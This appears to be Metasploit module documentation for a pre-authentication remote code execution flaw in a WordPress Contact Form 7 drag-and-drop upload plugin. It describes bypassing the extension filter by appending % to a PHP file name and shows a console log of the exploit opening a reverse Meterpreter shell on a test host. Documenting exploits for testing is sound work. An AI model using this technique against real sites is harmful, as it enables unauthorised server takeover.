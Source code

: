 ## Vulnerable Application

Drag and Drop Multiple File Upload - COntat Form 7 prior to version 1.3.4 contain a remote file upload
functionality, but is bound by a file extension whitelist.  However, this can be bypassed by appending
% at the end of the file, so backdoor.php% will pass the filter. This is a pre-authentication exploit.

At the time of writing this plugin has 20,000+ installs, and no mention of the vulnerability in the
changelog.

Plugin can be downloaded from [here](https://mega.nz/file/aQUClQKC#ZYeiTYSrPuRnwwlRavy4cqf_EXs34Tkq6KQig2RcOas).

`php-mbstring` is required for the plugin to work correctly, or else a `500` error will result in the
server logs.  No check is performed on plugin install for this.

`Contact Form 7` is also a required plugin to be installed.

No additional steps are required for exploitation such as configuring the plguins, or adding
a Contact Form (with drag and drop) to a page/post.

## Verification Steps

  1. Install wordpress and the plugins
  2. Start msfconsole
  3. Do: ```use exploits/multi/http/wp_dnd_mul_file_rce```
  4. Do: ```set rhosts```
  5. Do: ```run```
  6. You should get a shell.

## Options

## Scenarios

### Wordpress 5.4.1 with Drag and Drop Multiple File Upload - Contact Form 7 v1.3.3.2 and Contact Form 7 v5.1.9 on Ubuntu 20.04

  ```
resource (dnd.rb)> use exploits/multi/http/wp_dnd_mul_file_rce
resource (dnd.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (dnd.rb)> set verbose true
verbose => true
resource (dnd.rb)> check
[*] Checking /wp-content/plugins/drag-and-drop-multiple-file-upload-contact-form-7/readme.txt
[*] Found version 1.3.3.2 in the plugin
[*] 2.2.2.2:80 - The target appears to be vulnerable.
resource (dnd.rb)> exploit
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Getting nonce
[*] Nonce: 392e81074e
[*] Attempting payload upload
[+] Payload uploaded successful
[*] Attempting to trigger at well known location
[*] Sending stage (38288 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:56032) at 2020-05-30 20:57:12 -0400
[+] Deleted ReasCENA.php

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : wordpress2004
OS          : Linux wordpress2004 5.4.0-33-generic #37-Ubuntu SMP Thu May 21 12:53:59 UTC 2020 x86_64
Meterpreter : php/linux
  ```
